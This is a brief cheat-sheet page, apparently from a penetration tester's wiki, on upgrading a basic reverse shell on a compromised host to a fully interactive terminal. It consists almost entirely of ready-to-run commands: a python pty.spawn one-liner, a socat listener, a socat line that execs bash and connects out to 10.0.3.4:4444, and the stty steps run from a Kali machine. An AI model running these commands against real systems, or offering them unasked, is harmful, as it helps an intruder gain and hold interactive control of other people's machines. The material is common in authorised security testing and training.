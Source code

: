 <!-- TITLE: Pty Alloc -->
<!-- SUBTITLE: A quick summary of Pty Alloc -->

From https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
# Python method
```
python -c 'import pty; pty.spawn("/bin/bash")'  
```

# Socat
Listening side
```
socat file:`tty`,raw,echo=0 tcp-listen:4444  
```

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  
```

Fetch static socat if necessary from https://github.com/andrew-d/static-binaries

# STTY Option
In reverse shell
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
```

In Kali
```
$ stty raw -echo
$ fg
```

In reverse shell
```
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```
